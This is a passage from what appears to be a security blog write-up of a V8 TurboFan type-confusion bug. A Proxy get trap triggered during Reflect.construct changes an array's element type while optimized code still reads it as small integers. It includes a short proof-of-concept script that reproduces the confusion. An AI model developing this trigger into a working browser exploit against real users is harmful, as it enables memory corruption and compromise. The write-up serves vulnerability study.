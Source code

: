 
If the get trap is called, the code changes the type by putting 1.1 at index 1 of the a array. 
There is a step to look up the prototype when calling reflect.construct(empty, argumets, p), but v8 uses Reflect.construct(ctor, args, newTarget) 
When executing, it finds newTarget.prototype (i.e. p.prototype) and sets that object as the prototype of the new instance.
At this time, when the proxy's get trap is executed, the return value acts as newTarget.prototype, so if a value such as null or undefined is returned here, 
Since the prototype of a new object may become strange or behave differently than expected, an error may occur, so we safely return object.prototype.

<br><br>


If this happens, the array is of double type, but TurboFan still reads it as Smi type.

<br><br>

If you run it

<br><br><br>

![0123_0.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250123/0123_0.png)


You can see strange values ​​coming out.

<br><br><br>

```js
/* poc.js */

// Copyright 2020 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax

let a = [0, 1, 2, 3, 4];

function empty() { }

function f(p) {
    return a.pop(Reflect.construct(empty, arguments, p));
}

let p = new Proxy(Object, {
    get: () => {
        a[1] = 1.1;
        % DebugPrint(a);
        return Object.prototype;
    }
});

function main(p) {
    return f(p);
}

% PrepareFunctionForOptimization(empty);
% PrepareFunctionForOptimization(f);
% PrepareFunctionForOptimization(main);

main(empty);
main(empty);
% OptimizeFunctionOnNextCall(main);
```